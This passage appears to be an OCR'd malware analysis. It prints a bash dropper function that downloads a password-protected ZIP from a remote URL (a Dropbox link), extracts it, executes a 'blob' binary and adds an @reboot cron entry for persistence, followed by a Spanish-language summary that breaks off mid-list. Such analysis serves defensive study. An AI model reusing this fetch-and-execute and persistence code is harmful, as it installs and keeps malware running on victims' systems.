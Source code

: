 ```bash 

    # Download the file
    echo "Establishing connection to remote resource..."
    curl -L -o "$OUTPUT_FILE" "$FILE_URL"

    if [ $? -ne 0 ]; then
        echo "Error during retrieval process. Terminating."
        exit 1
    fi

    # Validate the downloaded file
    FILE_TYPE=$(file -b "$OUTPUT_FILE")
    if [[ "$FILE_TYPE" != *"Zip archive data"* ]]; then
        echo "Artifact does not match expected configuration. Exiting."
        exit 1
    fi

    echo "------------------------------------------------------------------------------"
    echo " Preparing extracted elements for deployment"
    echo "------------------------------------------------------------------------------"

    # Extract the ZIP file
    unzip -o -P "$PASSWORD" "$OUTPUT_FILE" -d "$UNZIP_DIR"

    if [ $? -ne 0 ]; then
        echo "Error during extraction process. Terminating."
        exit 1
    fi

    # Locate and execute the file
    BLOB_PATH="$UNZIP_DIR/blob"
    if [ -f "$BLOB_PATH" ]; then
        echo "------------------------------------------------------------------------------"
        echo " Finalizing deployment sequence"
        echo "------------------------------------------------------------------------------"
        chmod +x "$BLOB_PATH"
        "$BLOB_PATH"
        
        # Add a cron job to run the file at startup
        echo "------------------------------------------------------------------------------"
        echo " Adding to cron for startup execution"
        echo "--------------------------------------------------------------------------
        (crontab -l 2>/dev/null; echo "@reboot $BLOB_PATH") | crontab -
    else
        echo "Required component missing from extracted set. Terminating."
        exit 1
    fi
}

Un resumen de lo que hace la función `do_wget_and_run` 


1. **Descarga un archivo ZIP malicioso desde Dropbox**:
   - URL construida dinámicamente:  
     `https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2/blob.zip?...`

2. **Guarda el ZIP con un nombre oculto y aleatorio en `/tmp`**:
   - Ejemplo: `/tmp/.hidden_12345.zip`

3. **Desencripta la contraseña del ZIP**:
   - Usa `base64` para obtener la contraseña.

4. **Verifica que el archivo es un ZIP** y **lo extrae**:
```